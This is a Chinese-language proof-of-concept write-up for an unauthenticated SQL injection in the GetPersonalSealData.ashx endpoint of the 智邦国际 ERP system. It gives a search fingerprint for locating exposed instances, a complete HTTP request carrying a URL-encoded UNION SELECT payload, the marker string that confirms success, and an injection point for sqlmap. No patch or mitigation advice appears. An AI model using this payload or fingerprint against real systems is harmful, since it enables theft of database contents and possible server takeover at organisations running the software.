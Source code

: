 # 智邦国际ERP GetPersonalSealData.ashx接口SQL注入漏洞

# 一、漏洞复现
智邦国际ERP系统 GetPersonalSealData.ashx接口处存在SQL注入漏洞，未经身份认证的攻击者可利用此漏洞获取数据库敏感信息，深入利用可获取服务器权限。

# 二、影响版本
+ 智邦国际ERP

# 三、资产测绘
+ web.icon=="0ab4ed9764a33fd85da03b00f44393e1"
+ 特征

![1704883537136-4947553c-c91b-4350-a9c8-1df6e73b1ec8.png](./img/OhYF0vdN8XPJVPA_/1704883537136-4947553c-c91b-4350-a9c8-1df6e73b1ec8-639576.png)

# 四、漏洞复现
```java
GET /SYSN/json/pcclient/GetPersonalSealData.ashx?imageDate=1&userId=%31%20%55%4e%49%4f%4e%20%41%4c%4c%20%53%45%4c%45%43%54%20%43%48%41%52%28%31%31%33%29%2b%43%48%41%52%28%31%32%32%29%2b%43%48%41%52%28%39%38%29%2b%43%48%41%52%28%39%38%29%2b%43%48%41%52%28%31%31%33%29%2b%43%48%41%52%28%36%38%29%2b%43%48%41%52%28%31%31%30%29%2b%43%48%41%52%28%31%31%37%29%2b%43%48%41%52%28%31%31%31%29%2b%43%48%41%52%28%37%33%29%2b%43%48%41%52%28%38%36%29%2b%43%48%41%52%28%31%30%35%29%2b%43%48%41%52%28%37%30%29%2b%43%48%41%52%28%38%37%29%2b%43%48%41%52%28%31%31%37%29%2b%43%48%41%52%28%36%35%29%2b%43%48%41%52%28%37%36%29%2b%43%48%41%52%28%31%30%34%29%2b%43%48%41%52%28%38%32%29%2b%43%48%41%52%28%31%31%31%29%2b%43%48%41%52%28%31%30%35%29%2b%43%48%41%52%28%38%38%29%2b%43%48%41%52%28%31%31%38%29%2b%43%48%41%52%28%37%35%29%2b%43%48%41%52%28%31%30%31%29%2b%43%48%41%52%28%36%37%29%2b%43%48%41%52%28%31%30%31%29%2b%43%48%41%52%28%36%39%29%2b%43%48%41%52%28%38%39%29%2b%43%48%41%52%28%31%30%31%29%2b%43%48%41%52%28%36%36%29%2b%43%48%41%52%28%37%31%29%2b%43%48%41%52%28%31%30%38%29%2b%43%48%41%52%28%36%36%29%2b%43%48%41%52%28%37%33%29%2b%43%48%41%52%28%31%30%39%29%2b%43%48%41%52%28%31%30%31%29%2b%43%48%41%52%28%38%34%29%2b%43%48%41%52%28%38%35%29%2b%43%48%41%52%28%36%35%29%2b%43%48%41%52%28%31%31%30%29%2b%43%48%41%52%28%36%35%29%2b%43%48%41%52%28%39%38%29%2b%43%48%41%52%28%31%30%30%29%2b%43%48%41%52%28%38%37%29%2b%43%48%41%52%28%31%31%33%29%2b%43%48%41%52%28%31%31%33%29%2b%43%48%41%52%28%31%31%33%29%2b%43%48%41%52%28%31%31%33%29%2b%43%48%41%52%28%31%31%33%29%2d%2d%20%79%68%6c%73 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=o0oxkf2lkudmy5ueprfeapbl
Upgrade-Insecure-Requests: 1
```

![1704886581249-064da2e0-8416-4202-a9ed-ad5d16488790.png](./img/OhYF0vdN8XPJVPA_/1704886581249-064da2e0-8416-4202-a9ed-ad5d16488790-137621.png)

```java
qzbbqDnuoIViFWuALhRoiXvKeCeEYeBGlBImeTUAnAbdWqqqqq
```

sqlmap

```java
/SYSN/json/pcclient/GetPersonalSealData.ashx?imageDate=1&userId=1
```

![1704886636864-d82ac9ca-3276-4b0a-aaa3-5ac1af53547c.png](./img/OhYF0vdN8XPJVPA_/1704886636864-d82ac9ca-3276-4b0a-aaa3-5ac1af53547c-432838.png)



> 更新: 2024-02-29 23:55:42  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/eqzw1z2g14rwg6ue>